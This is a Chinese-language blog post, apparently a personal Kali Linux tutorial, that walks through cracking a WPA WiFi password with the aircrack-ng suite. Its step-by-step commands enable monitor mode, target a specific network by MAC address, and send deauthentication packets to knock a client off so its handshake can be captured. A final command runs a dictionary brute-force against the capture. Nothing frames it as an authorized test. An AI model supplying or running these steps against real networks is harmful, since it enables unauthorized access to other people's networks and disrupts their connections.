 ```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music: 27968003
---
```


### 支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
### 1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

### 2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
### 3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 34:96:72:9B:73:7F -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
### 如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 34:96:72:9B:73:7F  -c 9C:2E:A1:E8:BC:B7 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)

#### 如果出现 **WPA handshake:34:96:72:9B:73:7F** 就是已经抓到了握握手包，可以继续下一步操作
![5](http://da1sy.github.io/assets/images/9-Yue/wifi-6.jpg)
### 5.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap

#### **-w**后面跟的是字典文件，最后面是抓到的包名
![6](http://da1sy.github.io/assets/images/9-Yue/wifi-00.webm)

最后就是坐等，这个猜解的快慢取决于GPU的运算能力

**最后成功截图**
![7](http://da1sy.github.io/assets/images/9-Yue/wifi-8.png)

